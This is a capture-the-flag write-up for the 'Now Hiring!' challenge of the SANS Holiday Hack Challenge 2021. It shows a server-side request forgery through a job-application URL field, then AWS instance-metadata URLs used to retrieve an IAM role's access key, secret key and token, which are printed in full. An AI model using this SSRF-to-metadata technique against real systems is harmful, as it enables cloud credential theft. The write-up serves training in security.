

# Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 10. Now Hiring!
### 10.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)

### 10.2. Hints
**AWS IMDS Documentation** - *Noxious O. D'or*: “The AWS documentation for IMDS is interesting reading.”

#### 10.3. Solution
The application form allows the insertion of an URL under the name of “URL to your public NLBI report”:  


I gave the URL of a computer I own and observed the application was fetching the URL specified without much control:
```bash
root@debian:~/hiring# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 …
34.132.188.111 - - [06/Jan/2022 08:44:41] "GET / HTTP/1.0" 200 -
34.132.188.111 - - [06/Jan/2022 08:44:56] code 404, message File not found
34.132.188.111 - - [06/Jan/2022 08:44:56] "GET /non-existent HTTP/1.0" 404 -
34.132.188.111 - - [06/Jan/2022 08:46:56] "GET /test_test_test HTTP/1.0" 200 -
```

When the file does not exist (`non-existent`), the application is just accepted:  


In case the file exist (`test_test_test`), the application shows more data:


Inspecting the broken image link, it is possible to recognize it is returning the content of the test page:
```bash
root@debian:~/hiring# curl "https://apply.jackfrosttower.com/images/asd.jpg"
Hi, I'm a test file!
```

At that point it was pretty straightforward to go ahead and test with AWS URLs considering the side challenge.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials I retrieved the `jf-deploy-role` user.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role:
```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

As the challenge required the `SecretAccessKey`, it is `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`.

#### 10.4. Thank you for the proxy
 https://knowyourmeme.com/memes/i-too-like-to-live-dangerously

---
### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)
## 11. [Customer Complaint Analysis](/11.%20Customer%20Complaint%20Analysis/README.md)
### 11.1. [Side Challenge - Strace Ltrace Retrace](/11.%20Customer%20Complaint%20Analysis/11.01%20Side%20Challenge%20-%20Strace%20Ltrace%20Retrace/README.md)
## 12. [Frost Tower Website Checkup](/12.%20Frost%20Tower%20Website%20Checkup/README.md)
### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)
## 13. [FPGA Programming](/13.%20FPGA%20Programming/README.md)
### 13.1. [Side Challenge - Frostavator](/13.%20FPGA%20Programming/13.01.%20Side%20Challenge%20-%20Frostavator/README.md)
## 14. [Bonus! Blue Log4Jack](/14.%20Bonus!%20Blue%20Log4Jack/README.md)
## 15. [Bonus! Red Log4Jack](/15.%20Bonus!%20Red%20Log4Jack/README.md)
## 16. [That’s how Jack came from space](/README.md#16-thats-how-jack-came-from-space)
## 17. [Narrative](/README.md#17-narrative)
## 18. [Conclusions](/README.md#18-conclusions)
---
## 0. [windovo\\thedead> whoami](/README.md)
## 1. [KringleCon Orientation](/01.%20KringleCon%20Orientation/README.md)
## 2. [Where in the World is Caramel Santiaigo?](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/README.md)
### 2.1. [Side Challenge - Exif Metadata](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/02.01.%20Side%20Challenge%20-%20Exif%20Metadata/README.md)
## 3. [Thaw Frost Tower's Entrance](/03.%20Thaw%20Frost%20Tower's%20Entrance/README.md)
### 3.1. [Side Challenge - Grepping for Gold](/03.%20Thaw%20Frost%20Tower's%20Entrance/03.01.%20Grepping%20for%20Gold/README.md)
## 4. [Slot Machine Investigation](/04.%20Slot%20Machine%20Investigation/README.md)
### 4.1. [Side Challenge - Logic Munchers](/04.%20Slot%20Machine%20Investigation/04.01.%20Side%20Challenge%20-%20Logic%20Munchers/README.md)
## 5. [Strange USB Device](/05.%20Strange%20USB%20Device/README.md)
### 5.1. [Side Challenge - IPv6 Sandbox](/05.%20Strange%20USB%20Device/05.01.%20Side%20Challenge%20-%20IPv6%20Sandbox/README.md)
## 6. [Shellcode Primer](/06.%20Shellcode%20Primer/README.md)
### 6.1. [Side Challenge - Holiday Hero](/06.%20Shellcode%20Primer/06.01.%20Side%20Challenge%20-%20Holiday%20Hero/README.md)
## 7. [Printer Exploitation](/07.%20Printer%20Exploitation/README.md)
## 8. [Kerberoasting on an Open Fire](/08.%20Kerberoasting%20on%20an%20Open%20Fire/README.md)
### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)
## 9. [Splunk!](/09.%20Splunk!/README.md)
### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)